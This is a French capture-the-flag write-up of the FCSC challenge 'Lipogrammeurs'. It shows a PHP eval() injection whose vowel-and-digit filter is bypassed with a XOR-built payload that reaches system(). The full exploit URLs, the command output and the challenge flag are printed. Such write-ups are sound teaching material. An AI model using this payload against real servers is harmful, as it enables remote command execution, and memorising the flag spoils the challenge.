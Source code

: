 # Lipogrammeurs - 100 pts


# Énoncé 
>Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5008/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge porte sur l'exploitation de la fonction eval de PHP, en contournant les filtres.


## Résolution

En arrivant sur la page, nous voyons uniquement ce morceau de code :

```
<?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
?>
```

On comprend qu'on peut injecter du code via ?code= dans l'URL. Celui-ci va être exécuté par PHP grâce à la fonction eval().

Cependant, nous voyons un problème, la commande __preg_match('/a|e|i|o|u|y|[0-9]/i')__ qui vérifie la présence de n'importe quelle voyelle ou de n'importe quel chiffre dans le code, et si c'est le cas, ne l'exécute pas. 

En recherchant comment contourner ce filtre, on trouve assez vite qu'on peut utiliser des XOR entre des caractères spéciaux, afin de générer du texte.

Après avoir réalisé plusieurs essais, nous avons trouvé ce payload 

```
"";$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);
```

Analysons le :

```
$_='$<>/'^'{{{{' // l'opération XOR entre ces 2 chaines donne _GET

// $_ étant égal à _GET, on construit notre requête à partir de ça
// Le payload utilisé correspond donc à :

$_GET[_]($_GET[__])
```

De cette manière, une fois que la fonction eval aura exécuté notre payload, on peut envoyer de la data en get sur **_=** et sur **__=**
Cette requête :

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code="";$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);&_=system&__=ls -a
```
nous exécute donc **$_GET[_]($_GET[__])** soit __system(ls -a)__.

La page nous retourne alors :

```
. .. .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php index.php
```

Il suffit de passer en paramètre un cat pour lire le contenu du fichier, on retrouve le flag dans le code source de la page.

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code="";$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);&_=system&__=cat .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php
```


**FLAG :  _FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}_**
